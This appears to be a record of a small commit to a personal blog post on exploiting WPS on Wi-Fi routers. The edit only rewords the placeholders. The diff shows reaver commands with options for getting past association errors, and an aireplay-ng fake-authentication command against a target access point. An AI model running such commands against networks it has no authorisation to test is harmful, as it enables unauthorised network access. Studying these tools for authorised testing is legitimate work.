

Before and after one commit to alexalwks2/aaronjohn2.github.io, a Jekyll site: the page built from _posts/2018-01-28-exploiting-wps.md, in a window 1280 px wide and 1400 px high, scrolled down 556 px. Shown: the whole window, without its empty margins (239-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/_posts/2018-01-28-exploiting-wps.md
+++ b/_posts/2018-01-28-exploiting-wps.md
@@ -21,7 +21,7 @@ wash -i wlan0
 
 2. Next, we will run Reaver against the target WPS enabled router.
 ```shell
-reaver -b (input mac address here) -c (input channel here) -i wlan0
+reaver -b (input AP mac address here) -c (input AP channel here) -i wlan0
 ```
 (Note: in the above command -b is the bssid of the target router, -c is the channel of the router and -i is the interface of the wireless adapter; where in my case its wlan0.)
 
@@ -30,7 +30,7 @@ reaver -b (input mac address here) -c (input channel here) -i wlan0
 
 4. Now, we will get these two commands ready in separate windows as shown below. First we will run the Reaver command and then immediately after we will run the aireplay-ng command. This below method should succesfully help you bypass the "Failed to associate" issue.
 ```shell
-reaver -b (input mac address here) -c (input channel here) -i wlan0 -A -vvv
+reaver -b (input AP mac address here) -c (input AP channel here) -i wlan0 -A -vvv
 ```
 (Note: in the above command -vvv is to show verbose output on the screen. Which means everything that happens happens in the background of Reaver tool will be output to the screen. Type reaver --help in terminal for more info.)
 ```shell
@@ -48,7 +48,7 @@ reaver --help
 
 5. Run the below command simultaneously, by first running the Reaver command in one window and immediately running the aireplay-ng command after in another window. -N option for Reaver should successfully help us bypass the 0x02 and 0x03 error.
 ```shell
-reaver -b (input mac address here) -c (input channel here) -i wlan0 -A -vvv -N
+reaver -b (input AP mac address here) -c (input AP channel here) -i wlan0 -A -vvv -N
 ```
 ```shell
 aireplay-ng --fakeauth 100 -a (input AP mac address here) -h (input attack machine mac address here) wlan0
````
